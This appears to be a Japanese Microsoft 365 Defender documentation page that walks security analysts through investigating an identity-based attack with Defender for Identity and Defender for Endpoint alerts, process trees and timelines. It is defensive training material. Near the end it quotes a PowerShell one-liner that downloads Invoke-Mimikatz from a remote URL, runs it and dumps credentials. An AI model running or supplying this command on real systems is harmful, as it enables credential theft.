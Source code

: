 ```yaml
---
title: ID ベースの攻撃の例
description: ID ベースの攻撃の分析の例を示します。
keywords: インシデント, アラート, 調査, 相関関係, 攻撃, マシン, デバイス, ユーザー, ID, ID, メールボックス, 電子メール, 365, microsoft, m365, インシデント対応, サイバー攻撃
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365solution-firstincident
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 2e0b237ad045b98b2bb013399f344db3f20f1919
ms.sourcegitcommit: c1eaea74c8ffce2f9f477c9469342e88e4a70c14
ms.translationtype: MT
ms.contentlocale: ja-JP
ms.lasthandoff: 07/20/2022
ms.locfileid: "66893619"
---
```

# <a name="example-of-an-identity-based-attack"></a>ID ベースの攻撃の例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**適用対象:**
- Microsoft 365 Defender

Microsoft Defender for Identityは、組織内の ID を侵害する悪意のある試みを検出するのに役立ちます。 Defender for Identity はMicrosoft 365 Defenderと統合されるため、セキュリティ アナリストは、Netlogon 特権昇格の試行の疑いなど、Defender for Identity からの脅威を可視化できます。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Microsoft Defender for Identityでの攻撃の分析

Microsoft 365 Defenderを使用すると、アナリストはインシデント ページの [アラート] タブで検出ソースによって **アラート** をフィルター処理できます。 次の例では、検出ソースが **Defender for Identity** にフィルター処理されます。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Microsoft Defender for Identityで検出ソースをフィルター処理する" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

**ハッシュ攻撃の疑いのあるアラートを** 選択すると、Microsoft Defender for Cloud Appsのページに移動し、より詳細な情報が表示されます。 アラートまたは攻撃の詳細については、 **このアラートの種類の詳細** を選択して、攻撃と修復 [の提案の説明を](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) 読むことができます。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="疑わしい超過ハッシュ攻撃アラート" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Microsoft Defender for Endpointで同じ攻撃を調査する

または、アナリストは Defender for Endpoint を使用して、エンドポイント上のアクティビティの詳細を確認することもできます。 インシデント キューからインシデントを選択し、[ **アラート** ] タブを選択します。ここから、検出ソースも識別できます。 EDR としてラベル付けされた検出ソースは、エンドポイントの検出と応答を表します。これは Defender for Endpoint です。 ここから、アナリストは EDR によって検出されたアラートを選択します。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Microsoft Defender for Endpoint ポータルでのエンドポイントの検出と応答" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

アラート ページには、影響を受けるデバイス名、ユーザー名、自動調査の状態、アラートの詳細など、さまざまな関連情報が表示されます。 アラート ストーリーは、プロセス ツリーの視覚的な表現を示しています。 プロセス ツリーは、アラートに関連する親プロセスと子プロセスを階層的に表したものです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Microsoft Defender for Endpointのアラート プロセス ツリー" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

各プロセスを展開して詳細を表示できます。 アナリストが確認できる詳細は、悪意のあるスクリプト、送信接続 IP アドレス、およびその他の有用な情報の一部として入力された実際のコマンドです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Microsoft Defender for Endpoint ポータルのプロセスの詳細" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
**[タイムラインで表示]** を選択すると、アナリストはさらにドリルダウンして、侵害の正確な時刻を判断できます。 

Microsoft Defender for Endpointは、多くの悪意のあるファイルとスクリプトを検出できます。 ただし、送信接続、PowerShell、およびコマンド ライン アクティビティの正当な用途が多いため、悪意のあるファイルまたはアクティビティが作成されるまで、一部のアクティビティは無害と見なされます。 そのため、タイムラインを使用すると、アナリストは周囲のアクティビティと共にコンテキストにアラートを配置し、他の場合は共通のファイル システムとユーザー アクティビティによって隠されている攻撃の元のソースまたは時刻を判断できます。 

タイムラインを使用するために、アナリストはアラート検出の時点 (赤) から開始し、時間をさかのぼって下にスクロールして、悪意のあるアクティビティにつながった元のアクティビティが実際に開始されたタイミングを判断します。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="アナリストのアラート検出の開始時刻" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Windows Update接続、Windows Trusted Software アクティブ化トラフィック、Microsoft サイトへのその他の一般的な接続、サード パーティのインターネット アクティビティ、Microsoft Endpoint Configuration Manager アクティビティなどの一般的なアクティビティを、疑わしいアクティビティから理解して区別することが重要です。 区別する方法の 1 つは、タイムライン フィルターを使用する方法です。 アナリストが表示したくないものを除外しながら、特定のアクティビティを強調表示できるフィルターは多数あります。 

次の図では、アナリストがフィルター処理して、ネットワーク イベントとプロセス イベントのみを表示しています。 このフィルター条件を使用すると、アナリストは、メモ帳が IP アドレスとの接続を確立したイベントを取り巻くネットワーク接続とプロセスを確認できます。プロセス ツリーでも確認できます。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="メモ帳を使用して悪意のある送信接続を行った方法" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

この特定のイベントでは、メモ帳を使用して悪意のある送信接続を行いました。 ただし、通常、iexplorer.exe プロセスは通常の Web ブラウザー アクティビティと見なされるため、攻撃者はiexplorer.exeを使用して悪意のあるペイロードをダウンロードするための接続を確立します。

タイムラインで探すもう 1 つの項目は、PowerShell が送信接続に使用することです。 アナリストは、悪意のあるファイルをホストしている Web サイトへの送信接続に `IEX (New-Object Net.Webclient)` 続いて、コマンドを使用して PowerShell 接続が正常に行われるかどうかを探します。 

次の例では、PowerShell を使用して、Web サイトから Mimikatz をダウンロードして実行しました。

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
アナリストは、検索バーにキーワードを入力してキーワードをすばやく検索し、PowerShell で作成されたイベントのみを表示できます。 

## <a name="next-step"></a>次の手順

フィッシング調査パス [を](first-incident-path-phishing.md) 参照してください。

## <a name="see-also"></a>関連項目

- [インシデントの概要](incidents-overview.md)
- [インシデントの管理](manage-incidents.md)
- [インシデントの調査](investigate-incidents.md)
